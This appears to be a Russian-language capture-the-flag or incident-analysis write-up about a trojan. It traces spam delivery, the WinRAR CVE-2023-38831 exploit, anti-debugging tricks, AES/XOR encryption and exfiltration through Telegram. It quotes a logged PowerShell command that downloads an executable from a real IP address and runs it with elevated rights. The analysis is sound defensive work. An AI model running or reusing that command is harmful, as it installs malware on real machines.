# 1 Как ВПО попало на компьютер?
Через спам рассылку на почту

# 2 С какого сервера?
Посмотрев события винды видим откуда был скачан файл:

ip: http://95.169.192.220:8080
Logfile:

```
file:///C:/Users/Evgeniy/AppData/Local/Temp/Rar$DIa2900.6159/TOP_SECRET.pdf
Trojan:Win32/Znyonm
Поставщик "Registry" находится в состоянии Started. 

Подробные сведения: 
	ProviderName=Registry
	NewProviderState=Started

	SequenceNumber=1

	HostName=ConsoleHost
	HostVersion=5.1.19041.906
	HostId=9da22629-af52-4b50-a1e3-c0b8ad39c1a1
	HostApplication=powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); Start-Process -Verb runAs $drop
	EngineVersion=
	RunspaceId=
	PipelineId=
	CommandName=
	CommandType=
	ScriptName=
	CommandPath=
	CommandLine=
```
3. С помощью какой уязвимости данное ВПО запустилось? В каком ПО?

Уязвимость: CVE-2023-38831, [https://habr.com/ru/articles/797127/](https://habr.com/ru/articles/797127/)

# 4 Какие методы противодействия отладке использует программа? 

При исполнении программы вызываются прерывания int 3 которые без откладчика вызовут EXCEPTION_BREAKPOINT и будут переданы обработчику исключений, а при присутствии исключение не будет передано обработчику \
isDebuggerPresent() возвращает true, если программа в деабггере и false, если нет

# Какой алгоритм шифрования используется при шифровании данных? Стоимость: 10
Использеутся библиотека crypto++ - в зависимостях она видна при дизассембле \
Вирус написан на визуал с++ \
Используется шифр 256 битный AES в режиме CBC - есть функция CBC в crypto++ \
Испольуется base64 - видно по файлам \
Используется XOR \
Генерация рандомных чисел

# 7
Вирус отсылает данные на бота через api телеграмма
![link.png](link.png "win!")
